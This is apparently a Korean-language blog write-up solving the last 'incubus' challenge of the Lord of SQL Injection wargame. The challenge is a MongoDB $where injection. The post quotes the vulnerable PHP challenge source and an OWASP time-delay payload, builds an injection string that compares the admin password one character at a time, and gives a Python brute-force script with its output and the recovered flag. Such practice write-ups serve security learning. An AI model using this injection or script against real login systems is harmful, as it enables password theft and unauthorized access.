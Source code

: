 ```yaml
---
layout: post
title: ! "[Lord of SQL Injection] LoS - incubus 문제풀이"
excerpt_separator: <!--more-->
comments : true
categories : [Wargame/Lord of SQL Injection]
tags:
  - Write-up
  - Lord of SQL Injection
---
```


드디어!!! 마지막 문제인 `incubus`이다.  

문제를 푼 시간보다 풀이를 적는 시간이 더 오래 걸렸던 것 같다..  

<!--more-->

코드는 다음과 같다.  

```php
--------------------------------------------------------------------------
query : {"$where":"function(){return obj.id==''&&obj.pw=='';}"}
--------------------------------------------------------------------------

<?php
  include "./config.php";
  login_chk();
  $db = mongodb_connect();
  if(preg_match('/prob|_|\(/i', $_GET['id'])) exit("No Hack ~_~");
  if(preg_match('/prob|_|\(/i', $_GET['pw'])) exit("No Hack ~_~");
  $query = array("\$where" => "function(){return obj.id=='{$_GET['id']}'&&obj.pw=='{$_GET['pw']}';}");
  echo "<hr>query : <strong>".json_encode($query)."</strong><hr><br>";
  $result = mongodb_fetch_array($db->prob_incubus->find($query));
  if($result['id']) echo "<h2>Hello {$result['id']}</h2>";

  $query = array("id" => "admin");
  $result = mongodb_fetch_array($db->prob_incubus->find($query));
  if($result['pw'] === $_GET['pw']) solve("incubus");
  highlight_file(__FILE__);
?>
```

이번에도 `id`가 `admin`일 때의 `pw` 값을 알아야 한다.  

그런데 이번 문제에서는 조금 다른게 쿼리가 함수 형태로 들어갔다는 것이다.  

함수 형태로 들어가 있더라도, 내가 입력 한 값에 대해서는 특별한 검증이 없기 때문에 공격이 가능하다.  

내가 주로 고민했던 부분은 `obj.pw`에서 한 글자 씩을 어떻게 비교 할 것이냐는 부분이었다.  

그런데 여러가지 테스트를 해 보다가 `obj.pw[0]`과 같이 사용하면 한 글자 씩 사용할 수 있는 것을 확인할 수 있었다.  

일단 공격을 수행하기 위해서는 내가 의도한 코드를 실행시켜야 하는데, 여기에서는 `소스코드를 이어서 적는 방법`으로 함수의 흐름을 변경할 수 있다.  

`소스코드를 이어서 적는 방법`이라고 하니 뭔가 이상한데, 예를 들면 이런 것이다.  

> [Testing for NoSQL injection](https://www.owasp.org/index.php/Testing_for_NoSQL_injection#Example_1)

여기의 예시를 보면, 아래와 같은 코드가 있다.  

```javascript
db.myCollection.find( { active: true, $where: function() { return obj.credits - obj.debits < $userInput; } } );;
```

이 때, `$userInput`에 대한 검증과정이 없다면 아래와 같은 코드를 `$userInput`으로 삽입하는 것이 가능하다.    

```javascript
(function(){var date = new Date(); do{curDate = new Date();}while(curDate-date<10000); return Math.max();})()
```

그 결과, 완성되는 코드는 다음과 같다.  

```javascript
function () { return obj.credits - obj.debits < (function(){var date = new Date(); do{curDate = new Date();}while(curDate-date<10000); return Math.max();})(); }
```

즉, 입력 값에 내가 실행하고자 하는 소스코드를 입력하여 함수의 흐름을 바꾸는 것이다.  

나는 `id`가 `admin`일 때의 `pw` 값을 구해야 하므로, 실행되어야 하는 코드는 다음과 같은 형태여야 `pw`를 한 글자 씩 비교 해 전체 값을 알아낼 수 있다.  

```javascript
function(){return obj.id=='admin'&&obj.pw[0]=='a';}
```

따라서 내가 입력 한 값은 다음과 같다.  

```javascript
?id=admin'&&obj.pw[0]='a';'
```

이렇게 하면 `$query`에서 완성되는 코드는 다음과 같다.  

```javascript
function(){return obj.id=='admin'&&obj.pw[0]=='a';''&&obj.pw=='';}
```

만약 `obj.id`가 `admin`이고 `obj.pw`의  첫 번째 글자가 `a`라면 `return true`가 될 것이고, 뒤의 `''&&obj.pw=='';`는 별 다른 영향을 미치지 못할 것이다.  

이를 바탕으로 아래와 같이 코드를 구현했다.  

```python
import urllib2
import urllib
import requests
import time

flag = ""
length = 40

url = "https://los.rubiya.kr/chall/incubus_3dff9ce783c9f574edf015a7b99450d7.php?id="
session = dict(PHPSESSID = "YOUR SESSION ID")

end = False

print "[+] Start"

print "[+] Find password"
	
for j in range(0, length + 1):
	for i in range(48, 123):
		try:
			start = time.time()
			query = url + "admin'%26%26obj.pw[" + str(j) + "]=='" + str(chr(i)) + "';'"
			r = requests.post(query, cookies=session)
		except:
			print "[-] Error occur"
			continue

		if 'Hello admin' in r.text:
			flag += chr(i)
			print "[+] Found " + str(j + 1), ":", flag
			break
		if i == 122:
			end = True
			print "[+] Maybe it's end of the password"
			break
	if end:
		break

print "[+] Found password : ", flag
print "[+] End"
```

이를 실행하면 다음과 같다.  

```
$ python ex.py
[+] Start
[+] Find password
[+] Found 1 : b
[+] Found 2 : b4
[+] Found 3 : b47
[+] Found 4 : b478
[+] Found 5 : b4782
[+] Found 6 : b47822
[+] Found 7 : b47822e
[+] Found 8 : b47822ea
[+] Maybe it's end of the password
[+] Found password :  b47822ea
[+] End
```

와 드디어 마지막 플래그 값을 얻었다!  

이를 아래와 같이 입력하면 문제를 풀 수 있다.  

```
?id=admin&pw=b47822ea
```

```php
-----------------------------------------------------------------------------------
query : {"$where":"function(){return obj.id==''&&obj.pw=='b47822ea';}"}
-----------------------------------------------------------------------------------

INCUBUS Clear!

<?php
  include "./config.php";
  login_chk();
  $db = mongodb_connect();
  if(preg_match('/prob|_|\(/i', $_GET['id'])) exit("No Hack ~_~");
  if(preg_match('/prob|_|\(/i', $_GET['pw'])) exit("No Hack ~_~");
  $query = array("\$where" => "function(){return obj.id=='{$_GET['id']}'&&obj.pw=='{$_GET['pw']}';}");
  echo "<hr>query : <strong>".json_encode($query)."</strong><hr><br>";
  $result = mongodb_fetch_array($db->prob_incubus->find($query));
  if($result['id']) echo "<h2>Hello {$result['id']}</h2>";

  $query = array("id" => "admin");
  $result = mongodb_fetch_array($db->prob_incubus->find($query));
  if($result['pw'] === $_GET['pw']) solve("incubus");
  highlight_file(__FILE__);
?>
```

`INCUBUS Clear`

드디어 `Lord of SQL Injection`을 또 다시 `All Clear` 했다!  

너무 신난다 히히힣  

지난번에 풀 때에는 모르는게 좀 많아서 물어보면서 했었는데, 이번에는 퇴근하고 매일매일 혼자 풀어서 올클을 한 거라 더욱 뿌듯했다.  

이제는 다른 공부거리를 찾아봐야 겠다.  

`Lord of SQL Injection All Clear!!`  

![](/images/los/incubus/incubus_01.png)
